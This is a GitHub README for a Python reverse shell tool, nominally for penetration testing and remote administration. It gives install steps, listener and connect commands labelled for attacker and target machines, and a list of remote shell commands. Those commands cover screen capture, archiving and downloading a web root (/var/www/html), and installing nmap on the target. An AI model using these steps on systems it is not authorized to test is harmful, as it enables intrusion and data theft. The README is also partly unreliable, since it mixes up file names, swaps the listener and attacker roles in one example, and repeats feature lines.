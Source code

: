 # Python Reverse Shell Hacking
![carbon](https://github.com/user-attachments/assets/c6c5c0ac-6b10-42e4-aed8-0dd5249e5124)

## This tool is designed for:
* Penetration testing ⚔️
* Remote administration 🖥️
* File transfer between systems 📁
* Network troubleshooting 🌐

## Security Features

🔒 Port Customizable
- Can use any port (1-65535)

⚠️ Error Handling
- Clear error notification
- Doesn't crash when command fails

📜 Logging (In advanced version)
Records all activities to a log file

## ⚙️ Dependensi
```console
pip install colorama
```

##  🛠 Installation

1️⃣ System Requirements
* Python 3.x installed
* Terminal/command prompt access
* Internet connection (for dependency installation)

2️⃣ Installation Steps

💻 Linux/macOS
```console
# 1. Clone repositori (if any) or copy the script to file .py
git clone https://github.com/hidayat-tanjung/revershe.git  # Replace with original repo if available
cd revershe/

# 2. Install dependensi (just colorama)
pip3 install colorama

# 3. Grant execution permission
chmod +x reverse.py  # Replace with your script file name

# 4. Run the tool
./revershe.py
```
🪟 Windows (PowerShell)
```console
# 1. Save script as `reverse_shell.py`

# 2. Install dependencies
pip install colorama

# 3. Run the tool
python revershe.py
```

🔌 Mode Listener (Server)
```console
./revershe.py -l -p 4444  # Listen for connections on port 4444
```
Use this on attacker machine.

🎯 Mode Connect (Client)
```console
./revershe.py -c 192.168.1.100 -p 4444  # Contact the listener on the target IP
```
Run this on the target machine to connect to the listener.

If run without arguments, the tool will display an interactive menu:
```console
./revershe.py 
```
Select an option:

* `Start Listener` (Start the server)
* `Connect to Target` (Contact the server)
* `Show Help` (Instructions for use)

Usage example:

- Select option 1 (Start Listener)
- Enter the port (eg 4444)
- On the target computer will appear:
```console
[*] Listening on port 4444
```
As a Listener (Target):
```console
python3 reverse.py -l -p 4444
```
Output 
```console
[*] Listening on port 4444
[+] Connection from [IP_ATTACKER]
```
As an Attacker:
```console
python3 reverse.py -c [IP_TARGET] -p 4444
```
Output 
```console
[*] Connected to [IP_TARGET]:4444
shell>
```

## Fitur 
```console
shell> upload /path/lokal/file.txt
shell> download /path/remote/file.txt
shell> download /path/remote/folder  # Untuk direktori
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> help       # Menampilkan bantuan
shell> sysinfo    # Info sistem target
shell> ls         # List direktori target
shell> cd /path   # Ganti direktori
shell> exit       # Keluar
shell> whoami
shell> ipconfig/ifconfig
shell> cd /path
shell> ls -la
shell> sysinfo  # Menampilkan info sistem target
shell> screencap -o /tmp/screen.png
shell> download /tmp/screen.png
shell> tar -czf /tmp/data.tar.gz /var/www/html
shell> download /tmp/data.tar.gz
shell> apt-get update && apt-get install -y nmap
```
## ⚡ Additional Features
- Transfer File
  - `upload file.txt` → Upload files to target
  - `download /path/file` → Download files from target
- Command Execution
  - Run regular shell commands(`ls, whoami, dll`.)
- Auto Compression
  - The folder will be compressed so `.tar.gz` before sending

📜 License
MIT License - Free for personal and commercial use

[![GitHub](https://img.shields.io/badge/GitHub-View_Project-blue?logo=github)](https://github.com/hidayat-tanjung/revershe)
